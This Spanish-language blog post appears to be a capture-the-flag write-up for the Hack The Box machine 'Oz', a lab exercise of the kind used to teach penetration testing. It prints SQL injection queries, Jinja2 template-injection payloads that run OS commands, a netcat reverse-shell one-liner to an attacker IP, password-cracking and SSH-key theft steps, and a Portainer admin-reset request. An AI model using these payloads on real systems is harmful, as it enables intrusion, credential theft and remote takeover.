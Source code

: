 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Oz                 |
| Os                     | Linux              |
| Difficulty             | Hard               |
| Points                 | 0                  |
| IP                     | 10.10.10.96        |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Oz/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.96
```

![nmap 1](/assets/images/Oz/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.96 -oG allPorts
```

![nmap2](/assets/images/Oz/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p80,8080 10.10.10.96 -oN targeted
```

![nmap3](/assets/images/Oz/nmap3.png)

Continuemos enumerando informacion de los sitios con whatweb. A simple viste la pagina en puerto 80 pide la autenticacion de un usuario y la de puerto 8080 te hace el login.

![whatweb](/assets/images/Oz/whatweb.png)

Vamos ahora a aplicar Fuzzing sobre la aplicacion de API.

```s
wfuzz -c -t 200 --hw=1,4 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.96/FUZZ
```

Vemos que en la ruta /users la comilla simple genera un error, por lo que podria significar que se puede aplicar un sqli.

![SQLI](/assets/images/Oz/sqli1.png)

Metemos el tipico or 1=1 -- - y si nos devuelve hasta un usuario. Ahora para poder enumerar mas usuarios podemos meter un or 1=1 limit 1,1. Podemos ahora insertar un usuario de la siguiente manera:

```sql
union select database() -- -
union select schema_name from information_schema.schemata limit 0,1; -- -
union select table_name from information_schema.tables where table_schema="ozdb" -- -
union select group_concat(column_name) from information_schema.columns where table_schema="ozdb" and table_name="users_gbw" -- -
```

|   #   |     Database       |     
|:------|:-------------------|
| 0     | information_schema |
| 1     |    mysql           |
| 2     |    ozdb            | 
| 3     | performance_schema |

|   #   |     Tables ozdb    |     
|:------|:-------------------|
| 0     | tickets_gbw        |
| 1     |    users_gbw       |

|   #   |  Table users_gbw   |     
|:------|:-------------------|
| 0     |   id               |
| 1     |   username         |
| 2     |   password         |

Para iterar los usuarios

```bash
for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'or%201=1%20limit%20$i,1%20--%20-"; done | jq
```

![database name](/assets/images/Oz/database_name.png)

```s
curl -s -X GET "http://10.10.10.96/users/'union%20select%20group_concat(username,%22:%22,password)%20from%20ozdb.users_gbw--%20-" | jq
```

Para crackear los hashes encontrados:

```s
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
#Si tenemos tarjeta grafica
hashcat -m 10900 -a 0 rockyou.txt --user
#wizard.oz  wizardofoz22
```

Ahora podemos entrar al panel del puerto 8080 con la contrasena encontrada.

Abriremos burpsuite para empezar a hacer pruebas con este formulario tickets e intentar un SSTI.

![Burp 1](/assets/images/Oz/response_test.png)

Como vemos que la respuesta de nuestra prueba se refleja tal cual lo escribimos, es posible hacer un ssti, tambien sabemos que el motor que usa es flask de python y por lo tanto podremos enumerar posibles cosas.

De acuerdo con maquinas anteriores que habiamos hecho, podemos intentar pasarle a la peticion una prueba para que interprete. Para mas informacion, en el siguiente<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection"> link.</a>

{{7*7}}

![Burp 2](/assets/images/Oz/burp2.png)

Ahora podemos intentar insertar comandos con un:

{{ get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/fib_trie").read() }}

Ahora que ya sabemos que usaurio somos, y somos root, procedimos a meter un ifconfig y como no vemos la ip de la maquina objetivo significa que estamos en un docker.

Podemos ver ahora los puertos expuestos realmente con un

{{ get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/tcp").read() }}

La respuesta de los puertos estara en hexadecimal y para verlos hacemos un:

```bash
echo "8C65
1F90
E412" | while read port; do echo "[+] Puerto $port -> $((0x$port))"; done
```

Ahora lo que intentaremos es inyectar un archivo malicioso con el script:

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.29 443 >/tmp/f',shell=True) }}

Vemos que en la ruta /containers/database hay credenciales para quizas otro contenedor

![Database creds](/assets/images/Oz/database_creds.png)

Dentro de este contenedor, existe una ruta en el /.secret, dentro de este directorio vemos un archivo de configuracion del knock el cual sirve para establecer politicas. Hay una linea para abrir o cerrar el Openssh de acuerdo al portknocking, y para forzarlo haremos el siguiente comando:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh dorth@10.10.10.96
```

No funciono, asi que ahora podemos tambien listar las demas maquinas que tenemos enfrente con:

```s
for i in $(seq 1 254); do (ping -c 1 10.100.10.$i | grep "bytes from"&); done
```

Y para detectarles sus puertos, podemos lanzar un:

```s
for port in $(seq 1 65535); do (nc -nvz 10.100.10.4 $port); done
```

Como el unico puerto que tiene abierto es el de mysql, procedemos a conectarnos al servicio con las credenciales antes encontradas:

```s
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'show databases'
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'select load_file("/home/dorthi/.ssh/id_rsa")' | sed 's/\\n/\n/g'
```

Como tenemos ahora un id_rsa podemos volver a intentar ahora si

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96
```

Este id_rsa esta cifrado, asi que ahora para romper el cifrado podemos usar:

```s
ssh2john id_rsa > data
```

Ahora que tenemos un formato descifrable, usamos el siguiente comando, con las contrasenas encontradas para ver cual es la que sirve para esta clave:

```s
john --wordlist=pass data
#N0Pl4c3L1keH0me
```

Ahora tenemos acceso a la flag y para escalar privilegios, existe un contenedor que es para gestionar los contenedores en el puerto 9000, para usarlo solo usaremos:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96 -L 9000:172.17.0.2:9000
```

Ahora podemos visitar el portainer desde nuestro navegador con un localhost:9000, para esta version de portainer, la contrasena de admin se puede cambiar multiples veces con la siguiente peticion:

```s
curl -s -X POST "http://localhost:9000/api/users/admin/init" -H "Content-Type: application/json" -d '{"password": "rebick"}'
```

Ahora que tenemos acceso a esta interfaz, nos crearemos un contenedor con las siguientes caracteristicas para poder escribir sobre root.

![Container create](/assets/images/Oz/container_create.png)

Ahora solo tenemos que iniciar desde esta interfaz una shell con los privilegios que inicialmente nos da que son de root y dentro de rootfs tenemos el verdadero sistema operativo.

![root](/assets/images/Oz/root.png)

![Powned](/assets/images/Oz/powned.png)